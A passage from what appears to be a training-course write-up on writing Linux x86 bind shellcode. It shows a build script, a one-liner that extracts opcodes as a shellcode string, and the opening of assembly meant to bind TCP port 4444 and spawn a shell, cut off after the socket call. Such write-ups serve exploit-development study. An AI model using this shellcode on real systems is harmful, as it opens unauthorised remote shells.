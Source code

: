 	echo '[+] Assembling with Nasm ... '
	nasm -f elf32 -o $dirname/$filename.o $1

	echo '[+] Linking ...'
	ld -o $dirname/$filename $dirname/$filename.o

	echo '[+] Done!'
fi
{% endhighlight %}

The script to dump the shellcode from the compiled binary:

{% highlight sh %}
#!/bin/sh

dirname=$(dirname -- "$1")
filename=$(basename -- "$1")
extension="${filename##*.}"
filename="${filename%.*}"

OBJDUMP=`which objdump`


if ! [ -x $OBJDUMP ]; then
	echo "[!] there is no objdump installed on the system. I can't continue."
	exit 1
fi

$OBJDUMP -d $dirname/$filename |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

{% endhighlight %}


## The assembly code

Putting all pieces together, this is the first assignment solution in assembler.

{% highlight assembly %}
; Filename: 	tcp_bind_shellcode_light.nasm
; Author:	    Paolo Perego <paolo@codiceinsicuro.it>
; Website:  	https://codiceinsicuro.it
; Twitter:    @thesp0nge
; SLAE-ID:    1217
; Purpose: binds on TCP port 4444 and spawn a shell on incoming connections.


global _start

section .text

_start:
	; Creating the socket.
	;
	; int socket(int domain, int type, int protocol);
	;
	; socket() is defined as #define __NR_socket 359 on /usr/include/i386-linux-gnu/asm/unistd_32.h
	; AF_INET is defined as 2 in /usr/include/i386-linux-gnu/bits/socket.h
	; SOCK_STREAM is defined as 1 in /usr/include/i386-linux-gnu/bits/socket_type.h
	xor eax, eax
	mov ebx, eax
	mov ecx, eax
	mov edx, eax

	mov ax, 0x167 ; 359 in decimal
	mov bl, 0x2
	mov cl, 0x1

	int 0x80 ; sfd = socket(AF_INET, SOCK_STREAM, 0);
	mov ebx, eax ; storing the socket descriptor into EBX for next syscall

	;push eax ; save socket descriptor into the stack